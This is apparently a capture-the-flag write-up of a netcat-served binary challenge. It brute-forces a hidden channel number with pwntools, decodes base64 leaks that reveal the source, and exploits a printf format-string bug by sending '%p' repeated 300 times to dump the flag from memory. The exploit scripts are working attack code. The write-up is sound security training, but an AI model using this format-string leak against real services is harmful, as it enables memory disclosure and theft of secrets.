








# Introduction
---
For this one we have to connect to the server, For that I have used netcat.
```bash
nc localhost 1234
```
`I have the binary so I connected locally, but for you all you have to connect to server so use`<br><br>
**`nc <server IP> <port Number>`**<br><br>
After connecting you will see this<br><br>


---
# Playing With The Binary
<!-- ---  -->
After Getting connected we can see that it's asking for a `hidden channel number`, this number have range from **0 to 42** as specified in the HINT 1. So, we have to guess the correct number.

and if we didn't enter the correct number, we get something that might be base64 encoded **because we can see `=` sign**.

let's decode it :
```bash
echo "Ky0rLT0rLSMrLV4jI14rPV4rLT1eKz0rIz09KyotIyo9KiteKi0tPSojKyMtKyo9IklkZW50aXR5XnRoZWZ0I2lzLW5vdCthK2pva2UsXkppbSFeTWlsbGlvbnMjb2YjZmFtaWxpZXMjc3VmZmVyLWV2ZXJ5PXllYXIuIi0tXkR3aWdodD1TY2hydXRlK149Kj0rLSorXiojPSs9Xi09Iy0jLV4rXj09LSsjPV4rKisjPS09PT09PSojXj0qLSsrXisqKiotLSo=" | base64 -d
```
<br><br>

**"Identity theft is not a joke, Jim! Millions of families suffer every year.\" - Dwight Schrute**

It's a line from **The Office** TV show. 

# Brute Forceing The Channel Number
```python
from pwn import *

target = remote("localhost",1234)
target.recvuntil(b">>> ")

for i in range(43):
    target.sendline(str(i))
    txt = target.recvuntil(">>> ").replace("\r","") # while dealing with online binaries sometimes \n is represented by \r\n which can delete some informations
    print(txt)) 
```
<br>

We got something ( or should I say **somethings** :smile: )

Decoding the Something 2 shows us the source code of this binary

<br>

Here we can see that **sendSourceCode()** function which looks like it's sending the somethings and something 1 is adminNo, which we can see in main function that if adminNo is entered instead of Channel number a **m_exit()** function will be called.

<br>

# m_exit() Function
<br>

Here we can see that the Flag is loaded in a `Flag` variable then it's asking for `yes` or `no` input, Then printing our input and exits if input is `yes`

**One strange thing here is that it's asking for 300 Bytes for yes/no input, and printing it with printf without specifing any format specifiers :thinking:**

---
# [Printf Bug](https://medium.com/swlh/binary-exploitation-format-string-vulnerabilities-70edd501c5be)
---

# Exploitation

```python
from pwn import *

target = remote("localhost",1234)
target.recvuntil(b">>> ")

for i in range(43):
    target.sendline(str(i))
    txt = target.recvuntil(">>> ").replace("\r","") # while dealing with online binaries sometimes \n is represented by \r\n which can delete some informations

    if "Something" in txt:
        adminNO = txt.split(":")[1].split('\n')[0].strip()
        print(adminNO)
        target.sendline(adminNO)
        target.recvuntil(': ')
        target.sendline("%p"*300)
        txt = target.recvuntil(b'Which')
        print(txt.split(": ")[1].replace('Which',"").replace("(nil)","")) # removing unnecessary bytes from txt
        break
```
<br>

**Run the script and paste the output in [Cyber Chef](https://gchq.github.io/CyberChef/) with these options :**

<br>
<br>
**Then try to remove txt from the input from starting/ending and eventually you will see the flag**

<br>


